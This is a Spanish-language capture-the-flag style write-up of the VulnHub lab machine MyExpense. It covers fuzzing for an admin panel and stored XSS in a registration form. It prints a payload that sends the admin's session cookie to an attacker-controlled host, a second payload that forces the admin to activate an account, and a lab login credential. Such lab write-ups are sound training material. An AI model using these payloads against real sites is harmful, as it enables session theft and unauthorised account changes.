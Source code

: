 # MyExpense

- Máquina de vulnhub, para practicar XSS y SQL Injection  
- Descarga: <a href="https://www.vulnhub.com/entry/myexpense-1,405/">MyExpense</a>

### Antecedentes
Tenemos un usuario llamado Samuel, que ha sido despedido de la empresa y le deben todavía 750€ de un viaje que hizo. Para cobrarlo, debemos hacer la solicitud a través de la web pero nuestro usuario ha sido eliminado o deshabilitado. Nuestra misión es intentar loguearnos y conseguir cobrar esa cantidad.  
Your credentials were: samuel/fzghn4lw

### Accediendo a la web
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense1.jpg?raw=true">
Introducimos la url en el navegador y vamos al apartado para crear una cuenta. El botón de crear cuenta está bloqueado, así que inspeccionamos el codigo fuente y desbloqueamos el botón eliminando la línea **disabled**

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense2.jpg?raw=true">
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense3.jpg?raw=true">

Intentamos hacer login pero nuestra cuenta está deshabilitada

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense4.jpg?raw=true">

### Fuzzing

Hacemos fuzzing con gobuster y encontramos la carpeta admin

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense5.jpg?raw=true">

seguimos fuzzeando y encontramos admin.php y accedemos. Vemos que aparece un panel con los datos de usuarios, y Samuel y los usuarios creados están deshabilitados. no se pueden deshabilitar. solo puede un administrador.

<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense6.jpg?raw=true">


### XSS 
En formulario de creación de usuarios se ha detectado que se puede hacer XSS, con lo que con suerte, podremos robar la cookie de sesión del Administrador.  

Ponemos a la escucha con netcat en kali:  
```
python3 -m http.server 80
```

Introducimos el siguiente codigo en el formulario, por ejemplo en el campo de apellido:
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense7.jpg?raw=true">
```
#XSS Payload
<script>img = new Image(); img.src = "http://192.168.43.57/a.php?"+document.cookie;</script>
```
Hemos recibido la cookie!
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense8.jpg?raw=true">

Pero no nos sirve porque no puede estar el administrador logueado en 2 equipos distintos a la vez. Así que hay que forzar a que el administrador utilice el botón para activar el usuario.  
Si nos fijamos al clicar el boton, es simplemente una acción que lleva a una URL, probaremos a meter esa url en el código XSS
Para ello volvemos a crear otro usuario y en el apellido, por ejemplo. Metemos el siguiente código:  

```
# XSS Payload
<script>document.write('<img src="http://192.168.56.104/admin/admin.php?id=11&status=active"/>');</script>

```
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense9.jpg?raw=true">
esperamos un poco y voilá! se activó!
<img src="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/writeups/myexpense/myexpense10.jpg?raw=true">

